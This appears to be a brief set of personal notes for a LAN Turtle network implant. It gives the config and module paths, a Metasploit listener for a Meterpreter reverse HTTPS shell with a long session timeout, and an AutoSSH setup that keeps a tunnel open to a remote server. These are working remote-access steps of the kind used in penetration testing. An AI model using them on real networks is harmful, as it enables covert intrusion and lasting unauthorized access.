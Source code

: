 Manual updates
https://forums.hak5.org/topic/36363-guide-manually-updating-the-lan-turtle/


Network config: 

    /etc/config/network
    
   route add default gw X.X.X.X


Module locations:

    /etc/turtle/modules

 to start a module from here: ./<module> start
 
 
 
## Modules


### Meterpreter reverse shell

Setting up listener
 
    msfconsole

    use exploit/multi/handler

    set PAYLOAD python/meterpreter/reverse_https

    set LPORT/LHOST
    set SessionExpirationTimeout 604800
    set ExitOnSession false
    exploit -j

 Set up LAN Turtle

 Configure meterpreter-http with the correct IP and Port.
 
### AutoSSH
  
  Modules: autossh and keymanager
  
  Require VM with SSH server. 
  
    
  On the server create user to run the connection
  
       adduser turtle
       
       sudo apt-get install openssh-server
       
       sudo ufw allow ssh
       sudo ufw enable
  
   Use keymanager to generate keys and send the key to the server. (will be under /root/.ssh)
   
    Host: IP of SSH server
    Port: Listening port of SSH server
    User: user that was just created on server
    
  
  
  
  
  
  
  
  
  
  
 
